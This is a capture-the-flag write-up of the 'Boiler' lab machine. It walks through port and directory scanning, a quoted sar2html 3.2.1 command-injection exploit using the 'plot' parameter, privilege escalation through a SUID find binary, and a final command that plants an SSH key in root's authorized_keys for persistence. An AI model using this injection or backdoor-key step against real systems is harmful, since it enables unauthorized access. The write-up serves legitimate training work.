# Boiler CTF

#Linux #Joomla 

## Reconnaissance

I started running nmap and I got this following result.

```
$ nmap -p- -sV -sC 10.65.153.201
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-22 08:02 -0500
Nmap scan report for 10.65.153.201
Host is up (0.13s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.130.101
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp    open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/
10000/tcp open  http    MiniServ 1.930 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
55007/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:ab:e1:39:2d:95:eb:13:55:16:d6:ce:8d:f9:11:e5 (RSA)
|   256 ae:de:f2:bb:b7:8a:00:70:20:74:56:76:25:c0:df:38 (ECDSA)
|_  256 25:25:83:f2:a7:75:8a:a0:46:b2:12:70:04:68:5c:cb (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

First, I tried to login as `anonymous` user on FTP, I found a file called `.info.txt`. 

<figure><figcaption></figcaption></figure>

Using ROT-13 Cipher, we can see that it was just a clue.

<figure><figcaption></figcaption></figure>

Accessing the main page on default port `80`, we can see an Apache default page.

<figure><figcaption></figcaption></figure>

Enumeration for directories, I found `joomla`.

```
$ ffuf -u http://10.65.153.201/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.65.153.201/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

manual                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 130ms]
joomla                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 127ms]
server-status           [Status: 403, Size: 301, Words: 22, Lines: 12, Duration: 126ms]

```

Accessing this page, we can confirm that the application is using Joomla CMS.

<figure><figcaption></figcaption></figure>

I spent some time trying to find some exploits on Joomla, but nothing worked. I continued to enumerate finding for directories on `joomla`. I found a lot of directories, but the one who matters for us is `_test`.


```
$ ffuf -u http://10.65.153.201/joomla/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.65.153.201/joomla/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

language         [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 127ms]
administrator    [Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 127ms]
templates        [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 127ms]
includes         [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 127ms]
cache            [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 128ms]
media            [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 128ms]
images           [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 128ms]
modules          [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 128ms]
plugins          [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 129ms]
bin              [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 459ms]
libraries        [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 1461ms]
components       [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 1461ms]
tmp              [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 2464ms]
tests            [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 127ms]
installation     [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 3471ms]
layouts          [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 127ms]
_test            [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 128ms]
_archive         [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 127ms]
build            [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 126ms]
_database        [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 127ms]
_files           [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 127ms]
cli               [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 126ms]
```

Accessing this page, I noticed that the application is using `sar2html`.

<figure><figcaption></figcaption></figure>

I started to search about some way to exploit it and I found some exploits. Let's take a look on `Sar2HTML 3.2.1 - Remote Command Execution` found on exploit-db.

```
# Exploit Title: sar2html Remote Code Execution
# Date: 01/08/2019
# Exploit Author: Furkan KAYAPINAR
# Vendor Homepage:https://github.com/cemtan/sar2html 
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Centos 7

In web application you will see index.php?plot url extension.

http://<ipaddr>/index.php?plot=;<command-here> will execute 
the command you entered. After command injection press "select # host" then your command's 
output will appear bottom side of the scroll scree
```

Since we can send the command via `plot` parameter, I got a shell.

<figure><figcaption></figcaption></figure>

Trying to access the user's folder, I didn't have permission to do that.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>
## Privilege Escalation

Running Linpeas script, I found a SUID `find`.

<figure><figcaption></figcaption></figure>

According to GTFOBins, we can run the following command to get a shell as root.

<figure><figcaption></figcaption></figure>

I was able to get a shell as a root.

<figure><figcaption></figcaption></figure>

Reading `root.txt` flag.

<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

```
# echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEAE9Kdo/0MkPinKACi27ZOF2vPaP4t/mWrs/pEgA8E3 user@kali' > authorized_keys

```